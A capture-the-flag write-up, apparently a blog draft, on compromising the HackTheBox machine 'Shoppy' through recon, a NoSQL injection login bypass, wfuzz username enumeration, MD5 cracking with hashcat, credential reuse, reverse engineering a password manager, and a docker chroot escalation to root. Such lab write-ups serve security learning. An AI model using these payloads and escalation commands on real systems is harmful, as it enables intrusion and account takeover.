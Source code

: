```yaml
---
title: Shoppy HackTheBox
published: false
tags: htb nosql sql injection password crack subdomain reverse engineering reveng docker gobuster hashcat md5
---
```


## recon

```
# nmap -sC -sV -Ao nmap 10.10.11.180

# Nmap 7.92 scan initiated Thu Sep 29 08:59:36 2022 as: nmap -sC -sV -Ao nmap.again 10.10.11.180
Nmap scan report for 10.10.11.180
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 29 09:00:05 2022 -- 1 IP address (1 host up) scanned in 29.38 seconds
```

## open ports

- 22 = ssh 
- 80 = nginx http

## enumerating directories and subdomains

```bash
# find directories
gobuster dir -u http://shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt

# find subdomains
gobuster dns -w /usr/share/seclists/Discovery/DNS/namelist.txt -t 50 -d shoppy.htb
```

These scans reveals that there is a login page under `shoppy.htb/login` and asubdomain `mattermost`

## nosql injection

The login site is vulnerable to nosql injection which can be exploited when submitting `admin'||'1==1` as username.

By logging in we can search for users and get the hashed password. 
We now the user `admin` exists because we used his username in the nosql injection so we know how a positive search result looks like. 

With this information we can look for other users with `wfuzz`

## get users with wfuzz

```bash
wfuzz -c -z file,/usr/share/seclists/Usernames/Names/names.txt -L --hh 2561 --hc 500 -b "Cookie: rl_user_id=RudderEncrypt%3AU2FsdGVkX1%2FU2e5ivWS313EqHejrDqmqWBOz%2B7JiK1ZGG8%2F1YJwbMqu75MRDE0GU; rl_anonymous_id=RudderEncrypt%3AU2FsdGVkX1%2FUY9maqReUKFXmGrrT34nxbATStnx0je7zCF90BWcHFlQ0UyMBoDkHwtnp1WJHOC9wgPADeoHzXw%3D%3D; rl_group_id=RudderEncrypt%3AU2FsdGVkX18zrc11pNHh3MGWXwjk8h1haEPxMCFoUas%3D; rl_trait=RudderEncrypt%3AU2FsdGVkX1%2BvmEdwpOw3wnRMj5AHU%2BCwhP1yuW80jog%3D; rl_group_trait=RudderEncrypt%3AU2FsdGVkX18s9pN%2BNQ675PZeUnKOiPXIxXeioQcUDB8%3D; connect.sid=s%3A9xH10SZ2ZaAI3nOvgVp8GSxULBvnaDUp.e%2BkKff%2B%2BDrQhWq5D35SR4qy4jYNJraJLAzGmS9ByjEw" http://shoppy.htb/admin/search-users\?username\=FUZZ
```

Important here is to follow the request with the `-L` argument and to give it the header value with the `-b` argument. 
I was struggeling a bit with it because it always returned the same results until I tried it with curl and recognized that the request needs the cookie to success. 

When using right the resulting users are `admin` which we already knew and `josh`
```
000000086:   200        55 L     160 W      2720 Ch     "admin"
000004909:   200        55 L     160 W      2720 Ch     "josh"
```

When clicking on "Download Export" we get an `id`, `username` and a hashed `password`.
By looking at the length of the hashed password we can recognize that it is 32 chars long which can be a indication for the weak md5 hashing alogorithm.

## cracking found passwords

Using `hashcat` we have to store the two hashes from `admin` and `josh` in a file `hash.txt`
By runnig `hashcat hash.txt` we can determine what kind of hash it could be and so make sure that the md5 assumption is right. 
To crack the passwords run:
```bash
hashcat -m 0 --show hash.txt rockyou.txt
```

## getting user level

So we get the password for `josh` which we can use for the subdomain `mattermost`.Here we can login as `josh` and by looking around there are credentials for `jaeger` which we can use to `ssh` into the box and get the `user.txt`.

## privilege escalation

By running `sudo -l` we can examine which commands the user can execute.  
We find the executable `/home/deploy/password-manager` which we can run as the `deploy` user.

```bash
sudo -u deploy /home/deploy/password-manager`
```

We are asked about a master password which we can reverse engineer.

## reverse engineering master password

By copying the executable to the loacl maschine we can inspect it with the tools we are familiar with. 
First I tried to get the strings in it to look if the password where used in clear text in the source code. 
```bash 
strings password-manager
```
Unfortunately no success with it. 

To continue we can use radare2 to get more information about the executable.

```
r2 password-manager
aaa
s main 
VV
```

In the now presented callflow we can find a string `Sample`.

So we can authenticate in the password-manager with this master password and we get the credentials for the deploy user.

We can now login as `deploy` by executing `su deploy`

## getting root

Still no permissions to access `/root` so we have to continue...

By looking around be can find out that we can docker without super user rights.
So we look for docker in GTFOBins to bypass security restrictions and find [this](https://gtfobins.github.io/gtfobins/docker/).

To become `root` we run the command explained at the bottom of the site. 

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Voila. We are root
